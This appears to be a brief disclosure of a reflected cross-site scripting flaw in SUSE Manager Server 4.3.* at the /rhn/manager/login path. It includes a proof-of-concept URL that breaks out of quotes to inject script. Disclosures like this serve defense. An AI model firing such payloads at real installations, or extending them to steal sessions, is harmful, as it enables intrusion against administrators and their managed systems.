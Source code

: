 # suse-manager Reflective xss

## suse-manager introduction

True open source infrastructure management solutions are designed to simplify and secure your entire hybrid Linux environment - at the core, on the edge, or in the cloud. Maintain infrastructure security and compliance of any size (from 10 to 1 million clients) from a single console.

## Vulnerability description

You can use 'escape quotes in the /rhn/manager/login path to create reflective xss

## Impact version

SUSE Manager Server 4.3.*

## poc:

https://ip.com/rhn/manager/login'-alert(1)-'
